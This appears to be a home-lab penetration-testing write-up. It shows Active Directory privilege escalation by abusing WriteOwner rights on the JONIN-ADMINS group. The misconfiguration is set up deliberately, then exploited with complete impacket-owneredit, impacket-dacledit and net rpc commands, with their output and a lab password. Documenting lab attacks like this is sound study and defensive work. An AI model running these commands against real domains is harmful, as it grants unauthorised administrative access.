






DACL Abuse (WriteOwner on Group)
Hypothesis: Continuing our privilege escalation analysis for eren_yeager09, we examined their rights over domain groups. We hypothesized that WriteOwner privileges could extend to security groups, allowing for a takeover of the group object itself.
Findings: BloodHound analysis identified a WriteOwner edge from eren_yeager09 to the JONIN-ADMINS group.
Impact: By taking ownership of a security group, the attacker can manipulate the group's DACL to grant themselves the right to modify membership (WriteMembers). This allows them to add themselves to the group and inherit its privileges.
Objective: To simulate this misconfiguration, we manually modified the ACL of the JONIN-ADMINS group to grant Change Ownership rights to Eren.
dsacls.exedsacls.exe "CN=JONIN-ADMINS,CN=Users,DC=shinobi,DC=local"
/G shinobi\eren_yeager09:WO
dsacls output explicitly lists CHANGE OWNERSHIP for eren_yeager09.
Hypothesis: "We will abuse the WriteOwner permission to seize ownership of the JONIN-ADMINS group. This is the prerequisite for modifying the group's access controls."
impacket-ownereditimpacket-owneredit -action write -new-owner 'eren_yeager09'
-target-dn 'CN=JONIN-ADMINS,CN=USERS,DC=SHINOBI,DC=LOCAL'
'shinobi.local'
/'eren_yeager09'
:'Rumbling!321'
-dc-ip 192.168.56.10
OwnerSid modified successfully!.

Hypothesis: "Now that we own the group, we can modify its DACL. We will grant ourselves the specific WriteMembers right, which authorizes us to add users (specifically ourselves) to the group."
impacket-dacleditimpacket-dacledit -action 'write'
-rights 'WriteMembers'
-principal 'eren_yeager09'
-target-dn 'CN=JONIN-ADMINS,CN=USERS,DC=SHINOBI,DC=LOCAL'
'shinobi.local'
/'eren_yeager09'
:'Rumbling!321'
-dc-ip 192.168.56.10
DACL modified successfully!.
dsacls confirms the new ACE: SPECIAL ACCESS for Add/Remove self as member.
Objective: Leverage the newly granted WriteMembers right to add eren_yeager09 to the JONIN-ADMINS group.
net rpc (Samba)net rpc group addmem "JONIN-ADMINS"
"eren_yeager09"
-U shinobi.local/eren_yeager09%'Rumbling!321'
-S 192.168.56.10
net rpc group members "JONIN-ADMINS"
...
eren_yeager09 is now listed as a member of the admin group. Privilege escalation is complete.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}